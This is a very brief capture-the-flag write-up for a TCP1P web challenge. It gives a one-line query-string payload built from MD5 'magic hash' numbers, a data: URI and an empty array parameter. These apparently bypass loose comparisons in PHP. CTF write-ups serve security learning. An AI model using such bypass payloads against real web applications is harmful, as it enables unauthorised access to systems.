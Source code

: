 # Writeup

we just need to enter this payload ?x=240610708&y=314282422&tcp1p=data:,welcome CTF TCP1P playground&finish[]=
